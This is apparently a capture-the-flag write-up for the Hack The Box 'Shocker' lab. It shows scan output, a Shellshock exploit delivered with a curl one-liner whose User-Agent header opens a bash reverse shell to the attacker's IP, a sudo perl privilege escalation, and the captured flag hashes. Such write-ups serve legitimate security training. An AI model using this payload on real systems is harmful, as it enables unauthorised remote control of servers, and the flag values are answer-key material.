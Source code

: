 ```yaml
---
layout: post
title:  "HTB Shocker Linux"
description : 
tags: 
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.56.nmap 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.020s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Dirbuster scan
```ruby
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 403
```
Gobuster scan
```ruby
gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://
10.10.10.56:80/cgi-bin -s 200,204,301,302,307,403 -x sh
/user.sh (Status: 200)
```
```ruby
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2019-11-04 16:30:34 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2019-11-04 16:34:28 (GMT-5) (234 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# Exploitation Shellshock
The target machine is vulnerable to RCI Shellshock
After a little bit of research I came accross with a nice and handy one-liner reverse shell to
get user.
```ruby
curl -H "User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.25/5555 0>&1" http://
10.10.10.56/cgi-bin/user.sh
```
![](https://lh3.googleusercontent.com/ik9ZmyziiHaJQlxfDZGn9lLlvJzFAlovugfope5AwtAnjxomtRIdr3G0t5Bvllf7F7Af3RR4VzJYFcjZFMSjt2bj6e06dhxq0DH5hjc7k-ebnc02igvtVhpEKOmlE5DbgzL9-xNMpft3UhmFg5FtWmIVY-EzyHhPWtI_4Fzq4ISTd4Lyen3dE3OSDDkYWspQbBHmFUjcbTrMrKrgGIsIQ1YonNYVFFUN8f3g3LjMBYRArmHzp0wkyHuWIt-VvLTWVqgFyH1GVtUN3F1vROrBuP8Amh1Vtx4MNd2-u5BPjeiJv_7_zl633_sotZAk6WpDpgetuSmQ52Lr0tXHxBoxcDyUb0i5Oow37bptWc_TCXU9F6FDMZGMCiQYS7HluhX8_r5bGbuxrbQx5nBqPuOkhjsQriV44aZ2sAPcpHBSEm2z2zSwie3dx0ELugmjwC7FXP157mFxGaYlQDN3_Rfpt3fkCSRyshipW9tIas0FR7g40a-ZoyOoQtai8E0rfuHR52b7k05VuLv4dg_PNBiYY_FdYkfDHMHRxw2OZCFvYJZBMo0D0MwJWAzQsKZHMd7eVaE8D3VHqJKyB673TiMOWJuJCRLxlg69pkEp4Ub0NrK8TIFEvB5HwRqmbgcGMr9IaeaoEMIzsQl4nnqe_K6T4HHQAPT8xENk6duXSdZxwwrgzJ51JTb6opA=w703-h195-no)

# Privilege Escalation
After running LinuxEnum script we find out that we can **sudo** perl files
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User shelly may run the following commands on Shocker:
 (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl
```
![](https://lh3.googleusercontent.com/pqAM_KlDJqm8bgU7z8Pt73Xrp4qkQteltjrVt2O7v-7I5vvjf5oJDhLT-PKasb4kvHMoRFRsG4p_sL9QTrfJSFGjDn2FJhNhUsxsKWLkVGtl5GR-F4Lzz3U3xBs09r0lXNqFhnNRsGyNrs-UQ6iLeIRObO_uCCzgTsdcODzUgPna1XgvXDq6cdJKFvt-cEMfOTXBwrDtaQYt_sicxhHMFTO9ONmgBvxzPq2S4DZCllb9hiZVmF4FrxWGvIxoduL589mnyHYsCo9dVe5LqaC9tv5eZGsJIQVZgGpBeOE0kGOn5PHqrN4LELyr3r1PI6eIXjvBu4ATpwtmZt2Vve9Op3dw0M4UIF5WBy5pSnQ4bcEAacrH10bYpCIGx8gJmai6AUeqsVP8mcnG8p5cPkQ8QNiN6491urNRchk8yGkxzHjwSrL173ph8LIZg7BIq9DsyUnEU7lYaYe9oYsIa4uyE9IN_AM6dthFQBi2qZ97xGQpu4CXyP7uZWwvRBgOOYBUsgNFleLb-Ip2i_nLVDEIme_psMe377PcLliSGYOf3AlEzVrozvXz0UdxhtJqy04om9UTSTPgHEifdd5UM7p8JITjlFdTBFYb7uPBG7Rx3ZqVboqiiUhTqW5oieswrrilppFR3aSe8M06QM5hzmRBR5iv4IgfHDTgs1ErwZDDpqNai5kJ1EKnLpY=w751-h222-no)

We upload a perl reverse shell and set up nectat to get root!
![](https://lh3.googleusercontent.com/aMsxhqanjduBrkVsZrjxG_0zsePClu_pk2Yobd7mxPA_ZR9O3xymsAvPk0Efmr2ORqDdAlKo9YLcWtWrvOy-CJ4LaI4UDFe_oQswKcIlwzEo2nZ3XaPS9fa0fwm9vBzFQg0nKEHFcJpM5ai-aTDLn7ZFRWSCIEPtI_Nu561GTb2G5kPomyLK0kkWGIk0uWGXGb0QisUv8mYvTaulEo51XDp1vn5wEq8osUOryOiXO8KS0aikRBSsDsin7LZywffZWwgD3LHRgha5ANGO4K5MidZDhFICor67aMVaxrNyFYcVT_B92VJIOQDWDOdHV3lRhkO3s79swVAbbbGEunt8UL6_52GpSXqIL6wPMnz60gjN4xF6CKZw8CumAavdiuALvp_9NEeswQjtXeA0BOStXZNtKyDBipTScX6uMy5lsklfZxFl52I-jhb1EOla-ZZU9uHd1fz89cYIa0UHLOUx5XjiLBPgdRBEKWchmuCq6JvD5C2OnCx-l0YIh0bZqZJ2IaVoEsVaZlcANOgM51HSnbNLHRWp5Y-luZYjHImNR_j4LpBKEh2aF_xIB1bHpwJRh4_VS0upR-NbqXAm_Ef30M5LHTJfzEjgv3212tlotQZc-hy5aDLk9FHzUTXkeYsFCslB10f-5L02q3eavmREu5Umun4fpfFgmszONki6S6q-SZuUJElus6k=w611-h451-no)

![](https://lh3.googleusercontent.com/a3UnJ2fxz4uqeetF8rGEcviQ6010kl8eJ6F_tGsM4Hf-Ob3b7Hf-RJ4awyj7MkfmOiHLeQyLDK7YUL_oLEh7ufghR_LF2bEl-ZXOz0KK9YIlKyiPjBiLaZQi8-1hugMthr05VPaP22SmE1WlspEQF7yleluaf1B0JI4oKQ1xa9Dzr_oFiVTBt0-DSFyzFKzVIJRFMQ1dvFdbVeWit59MtlzZY7GXBQVT311yR-zUmIRcFNvJConvV0jDggqdcpfR5d2sU-L3v42t6lN7GuZVof3XD6WDyqqEEnhZ1p-sKXJOccTFappem0U6hi72ZEucFdzEHZmBcaDuOMtxVHsDqZy91dFi639dxRF-JSvPW1it7iOcy7TYNKkprarmW9--Fypcar90sQJsmdfylb0BJVgTr2ru3-i7xK92a9o4zzc7psvxEmqou8mPPOFWKdiYp6tCD7SPCyWZVv9OlkUSFh8tu4jmxyfc04KJ6Fr4DcJ_5wWf23toJq5P4W5DeLBFnEi8L1zuxwlobaGU-vIJ8j9frfKlaK29xqdZAhAeF5zujSOaYV9ixR601DQKvMroVUmTjLbiLkyCYq_a5PfbcApcJ0-NsrKA2Hxuse7enIJPVW9GhEUqGLG1IAGJqJIN5SJLXU0zHzH87W1GEC-ngEH191AolR_zaf0t5EnAV-pinbvqxk-sK1Q=w809-h277-no)

```ruby
ROOT "52c2715605d70c7619030560dc1ca467"
USER "2ec24e11320026d1e70ff3e16695b233"
```
